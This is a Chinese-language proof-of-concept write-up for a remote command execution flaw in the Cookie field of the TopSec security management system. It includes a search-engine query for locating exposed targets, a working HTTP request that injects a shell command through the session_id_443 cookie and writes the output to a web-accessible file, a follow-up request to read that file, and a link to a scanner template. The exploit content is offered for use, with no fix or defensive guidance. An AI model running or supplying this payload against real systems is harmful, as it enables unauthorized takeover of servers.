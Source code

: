 # 天融信TOPSEC Cookie 远程命令执行漏洞

# 一、漏洞简介
<font style="color:rgb(77, 77, 77);">天融信TopSec安全管理系统 Cookie字段存在远程命令执行漏洞，通过该漏洞，攻击者可通过构造恶意字符串，执行任意系统命令，从而拿下服务器权限。</font>

# <font style="color:rgb(77, 77, 77);">二、影响版本</font>
+ <font style="color:rgb(77, 77, 77);">天融信TopSec安全管理系统</font>

# <font style="color:rgb(77, 77, 77);">三、资产测绘</font>
+ hunter`web.body="/cgi/maincgi.cgi?Url=VerifyCode"`
+ 特征

![1704936146537-13a86149-a1db-456a-823d-3aa12caf6762.png](./img/AgIFV74hdffAwtGZ/1704936146537-13a86149-a1db-456a-823d-3aa12caf6762-191707.png)

# 四、漏洞复现
```java
GET /cgi/maincgi.cgi?Url=aa HTTP/1.1
Host: 
Cookie: session_id_443=1|echo `id`  > /www/htdocs/site/image/tt.txt;
User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36
```

![1704936207084-191ac2c5-9555-4105-a03f-68bc8b2847a8.png](./img/AgIFV74hdffAwtGZ/1704936207084-191ac2c5-9555-4105-a03f-68bc8b2847a8-085309.png)

获取命令执行结果

```java
GET /site/image/tt.txt HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.4; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2225.0 Safari/537.36
```

![1704936274463-eaacc85c-3862-4293-8deb-290be80ec4b8.png](./img/AgIFV74hdffAwtGZ/1704936274463-eaacc85c-3862-4293-8deb-290be80ec4b8-523088.png)

[test_qrcode_b-rce.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1709222234675-5ae23a8d-103c-4fab-bc8f-c12a5b7ca4fe.yaml)



> 更新: 2024-02-29 23:57:14  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ff91c9eyvw89wgfb>